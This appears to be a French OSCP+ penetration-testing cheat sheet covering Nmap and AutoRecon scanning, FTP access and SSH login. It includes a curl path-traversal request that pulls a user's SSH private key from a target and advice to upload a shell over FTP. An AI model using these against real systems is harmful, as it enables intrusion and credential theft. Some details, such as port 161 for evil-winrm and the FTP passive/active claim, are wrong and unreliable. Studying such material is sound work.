 ## Recommandations pour OSCP+
J'ai divisé le contenu en quatre sections différentes avec les titres suivants :

## 1. Accès Initial avec Différents Ports

### Général :
- Si vous trouvez des identifiants, utilisez les ports 21, 22, 3389, les pages de connexion web (ports d'écoute HTTP), le port 161 (evil-winram) et les bases de données.
- Essayez d'abord une approche à accès élevé, ciblant les systèmes avec des droits élevés comme RDP et SSH.
- Vérifiez toujours le répertoire /.ssh/ pour les clés RSA et les clés autorisées.

### Nmap
```bash
autorecon <ip>  # (meilleur outil avec scan UDP et TCP, vous ne voulez pas utiliser -sU -sT)
nmap -A -Pn <ip> # (Meilleure commande Nmap pour l'accès initial)
nmap -sC -sV -A -T4 -Pn -o 101.nmap 192.168.10.10  # (* vérifiez toujours la version pour chaque port vsftp 3.02 exploitable, cherchez sur Google ou searchsploits)
Test-NetConnection -Port 445 192.168.10.10 # (vérifiez si 445 est activé)
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("192.168.50.151", $)) "TCP port $ is open"} 2>$null # (vérifiez les ports 1 à 1024) (pour Windows)
nmap -sC -A -p21 <ip> # (pour un port spécifique)
```

### Port 21 FTP :
Il y a un nom d'utilisateur et un mot de passe sur celui-ci, vous pouvez télécharger un shell sur le répertoire ou trouver des fichiers téléchargés pour l'accès initial.

```bash
nmap --script=ftp-* -p 21 $ip  # (scan complet du port FTP)
# vérifiez si l'anonyme est autorisé, puis utilisez ftp anonymous@ip (mot de passe également anonymous)
# il y a un certain mode, si la commande ls dir ne fonctionne pas, alors appliquez "use passive" (pour passer en mode actif)
mget * # Téléchargez tout du répertoire actuel comme zip, pdf, doc
send/put # Envoyez un fichier unique ou téléchargez une commande shell
# après avoir téléchargé des fichiers, utilisez toujours exiftool –u -a <filename> (description Meta pour les utilisateurs)
# La version FTP supérieure à 3.0 n'est pas exploitable
```

### Port 22 SSH :
Vous ne pouvez pas obtenir un accès initial directement, cependant, nous pouvons nous connecter avec un utilisateur, un mot de passe et une clé privée.

```bash
ssh noman@ip
ssh -p 2222 noman@192.168.10.10 # (ssh avec un port différent)
curl http://<ip>/index.php?page=../../../../../../../../../home/noman/.ssh/id_rsa
chmod 600 id_rsa
ssh -i id_rsa -p 2222 noman@ip
user/.ssh/authorized_key
```
